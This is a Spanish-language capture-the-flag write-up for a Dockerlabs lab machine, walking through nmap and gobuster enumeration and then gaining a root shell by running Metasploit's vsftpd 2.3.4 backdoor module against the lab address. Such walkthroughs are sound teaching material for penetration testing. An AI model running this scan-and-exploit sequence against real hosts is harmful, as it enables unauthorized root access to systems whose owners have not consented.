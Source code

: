 # Write-up: BreakMySSH

- **Nombre de la máquina:** `Tproot` 
- **Plataforma:** `Dockerlabs` 
- **IP:** `172.17.0.2` 
- **SO:** `Linux` 
- **Dificultad:** `Muy Fácil`

-----------------------

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.
	`ping 172.17.0.2`
Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux. 

![](Imagenes/167.png)

#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                                 |
| ------ | -------- | ------------- | ------------------------------------- |
| 21     | FTP      | vsftpd 2.3.4  | Servicio de transferencia de archivos |
| 80     | HTTP     | Apache 2.4.58 | Servicio web                          |


/

![](Imagenes/168.png)

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.
### 21(FTP)

No existen herramientas propias para enumerar `FTP` por lo que utilizaremos `Nmap` 

`sudo nmap -p21 --script ftp-anon 172.17.0.2`

Comprobamos con un script de `Nmap` si tendríamos acceso al servicio con un usuario anónimo. 

![](Imagenes/169.png)
El servidor nos rechaza. 



### Puerto 80 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://172.17.0.2.
    Tenemos una página por defecto de Apache. 
    
    ![](Imagenes/170.png)
- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.
    No encontramos nada relevante
	![](Imagenes/171.png)
- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	- `/robots.txt`-->X
	- `/sitemap.xml`--> X
	- `/login`--> X
	- `/admin`--> X
	- `/panel`--> X
	- `/user`--> X
	- `/panel`--> X
	- `backup`--> X
	- `uploads`--> X
	- `test, etc.`--> X
    
    No encontramos nada
#### Enumeración Automática:

Lanzamos la herramienta `whatweb` para Identificar las tecnologías del servidor en nuestro caso Apache:

`whatweb 172.17.0.2`

![](Imagenes/172.png)


Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 

```
gobuster dir -u http://172.17.0.2/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```

![[Imagenes/Pasted image 20250806172958.png]]
**Hallazgos:**

- Nos devuelve algunas rutas, pero nada llamativo


En este punto, con la imposibilidad de poder iniciar sesión como usuario anónimo y no haber encontrado nada relevante en el servicio `http` optamos por revisar las vulnerabilidades conocidas para la versión del servicio `ftp` :`vsftp 2.3.4`

Para ello abriremos `metasploit`

`msfconsole -q`

y buscamos con el comando `search` la versión del servicio `ftp`
```
search vsftp: 2.3.4
```

![](Imagenes/173.png)

**Hallazgos:**

- Exploit disponible en la BBDD de `metasploit` : `Backdoor Command Execution`


## 3. EXPLOTACIÓN

### 3.1 Lanzamiento de exploit y acceso inicial.

Para seleccionar el exploit que queremos haremos uso del comando `use` acompañado del numero que corresponda al exploit en la columna `#`

1. `use 0`
![](Imagenes/174.png)
Continuaremos viendo las opciones necesarias para configurar nuetsrao exploit para ello podemos utilizar o `options` o `show options`
2.  `show options`
   
![](Imagenes/175.png)
Se nos desplegará una lista  en la que debemos añadir utilizando el comando `set` la información que se marque como `yes` en la columna de Required. 
En nuestro caso se trata de `RHOSTS` que hace referencia a la máquina objetivo. 

3. `set RHOSTS 172.17.0.2`
   
![](Imagenes/176.png)
Una vez tengamos lista nuestra configuración. Lanzaremos el exploit con el comando `run` o `exploit` 

4. `run`

Conseguimos entrar como usuario con máximos privilegios `root` con  sesión de  shell poco interactiva.

![](Imagenes/177.png)

Comandos de `metasploit`:

1. `use 0`
2. `show options`
3. `set RHOTS 172.17.0.2`
4. `run`


SOMOS ROOT 🚀


